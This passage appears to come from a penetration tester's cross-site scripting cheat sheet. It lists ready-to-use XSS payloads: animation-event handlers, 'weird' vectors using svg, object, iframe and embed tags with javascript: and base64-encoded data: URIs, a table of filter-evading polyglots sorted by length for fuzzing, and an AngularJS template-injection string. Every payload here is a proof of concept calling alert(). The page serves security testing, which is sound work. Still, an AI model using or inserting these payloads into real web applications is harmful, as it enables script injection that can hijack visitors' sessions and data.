 ```html
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>
```

#### Weird XSS vectors <a href="#weird-xss-vectors" id="weird-xss-vectors"></a>

Just some odd/weird vectors that I don’t see mentioned often.

```html
<svg><animate onbegin=alert() attributeName=x></svg>
<object data="data:text/html,<script>alert(5)</script>">
<iframe srcdoc="<svg onload=alert(4);>">
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
```

### XSS Polyglots  <a href="#xss-polyglots" id="xss-polyglots"></a>

I use several XSS polyglots because sometimes you only have a certain # of characters to input and need a DOM or non-DOM based one.\
Don’t rely on these as there are circumstances they will fail, but if you’re fuzzing everything then polyglots can give okay coverage.

| # chars | Usage   | Polyglots                                                                                                                                         |
| ------- | ------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| 141     | Both    | ``javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>`` |
| 88      | Non-DOM | `"'--></noscript></noembed></template></title></textarea></style><script>alert()</script>`                                                        |
| 95      | DOM     | `'"--></title></textarea></style></noscript></noembed></template></frameset><svg onload=alert()>`                                                 |
| 54      | Non-DOM | `"'>-->*/</noscript></ti tle><script>alert()</script>`                                                                                            |
| 42      | DOM     | `"'--></style></script><svg onload=alert()>`                                                                                                      |

#### Frameworks <a href="#frameworks" id="frameworks"></a>

To attack JS Frameworks, always do research on the relevant templating language.

**AngularJS**

| <pre class="language-html"><code class="lang-html">{% raw %}
{{constructor.constructor('alert(1)')()}}
{% endraw %}
</code></pre> |
| --------------------------------------------------------------------------------------------------------------------------------- |
